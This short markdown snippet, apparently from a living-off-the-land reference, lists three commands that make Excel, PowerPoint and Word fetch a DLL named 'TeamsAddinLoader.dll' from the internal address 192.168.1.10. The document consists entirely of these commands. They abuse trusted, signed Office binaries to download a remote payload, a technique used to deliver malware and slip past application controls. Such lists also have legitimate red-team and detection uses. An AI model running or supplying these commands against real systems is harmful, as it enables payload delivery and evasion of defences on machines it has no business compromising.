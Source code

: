 # MS Office

### 1) Excel

    Excel.exe "http://192.168.1.10/TeamsAddinLoader.dll"

### 2) Powerpoint

    Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"

### 3) Word

    WinWord.exe "http://192.168.1.10/TeamsAddinLoader.dll"
